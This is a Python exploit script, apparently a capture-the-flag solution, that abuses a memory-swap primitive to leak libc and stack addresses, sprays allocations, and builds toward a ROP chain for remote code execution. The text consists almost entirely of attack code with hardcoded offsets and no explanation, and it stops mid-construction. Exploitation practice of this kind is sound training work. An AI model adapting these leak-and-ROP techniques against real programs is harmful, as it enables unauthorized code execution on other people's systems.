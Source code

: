 ```python
def leaker():
  woogie_boogie(0, 0)
  return u64(rl()[:-1], endian='big')

t = get_target()

# leak libc
BASE = 0x7fffffffed10
START_REF = base_diff(0x7fffffffede8)
ROP = base_diff(0x7fffffffed38)

woogie_boogie(0, START_REF)
woogie_boogie(0, ROP)
leak = leaker()
LIBC = leak - 0x24083
if not args.REMOTE:
  libc.address = LIBC
lhex(LIBC, "libc: ")

# leak stack
STACK_LEAK = base_diff(0x7fffffffec68, 0x7fffffffec30)

woogie_boogie(START_REF, ROP)
woogie_boogie(0, STACK_LEAK)
leak = leaker()
STACK = leak
lhex(STACK, "stack: ") # 0x7fffffffed48

# allocate (c 8)
PAD = 0xe0
BASE = STACK - 0x1f8

linfo("allocate")
ALLOCS = 7
for i in range(ALLOCS):
  print(f'{i}/{ALLOCS}', end='\r')
  woogie_boogie(START_REF, ROP)
  woogie_boogie(0, 0)
  BASE -= PAD

# important offsets
BASE = 0x7fffffffe530

SWAP_ROP = base_diff(0x7fffffffe518)
A_STACK = base_diff(0x7fffffffe508) 
B_STACK = base_diff(0x7fffffffe500)
WOOGIE_STACK = base_diff(0x7fffffffe538)
BOOGIE_STACK = base_diff(0x7fffffffe540)

def create_char(char):
  assert char < 0x100, "char to large"
  woogie_boogie(char, WOOGIE_STACK)
  woogie_boogie(0, char)

# RCE (c 11)
linfo("woogie boogie")
lhex(BASE, 'base: ')

DONOR = base_diff(0x7fffffffe318, 0x7fffffffe370)
READ_GADGET = 0x1248
DONOR_ADR = 0x1280

char = READ_GADGET & 0xff
```